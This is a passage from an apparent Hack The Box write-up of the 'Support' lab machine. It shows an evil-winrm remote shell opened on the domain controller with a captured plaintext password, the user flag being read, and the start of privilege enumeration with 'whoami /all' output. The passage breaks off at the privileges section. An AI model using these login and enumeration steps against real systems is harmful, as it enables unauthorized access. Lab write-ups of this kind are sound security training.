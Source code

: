 
### Evil Winrm

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ evil-winrm -i DC.SUPPORT.HTB -u 'support' -p 'Ironside47pleasure40Watchful'
```

```bash
*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support

*Evil-WinRM* PS C:\Users\support\Documents> cat ../Desktop/user.txt
6911392db0baa5c5c206a74fc58d7b9f
```


# Root Flag
---

## Enumeration

```ruby
*Evil-WinRM* PS C:\Users\support\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== =============================================
support\support S-1-5-21-1677581083-3380853377-188903654-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
SUPPORT\Shared Support Accounts            Group            S-1-5-21-1677581083-3380853377-188903654-1103 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

```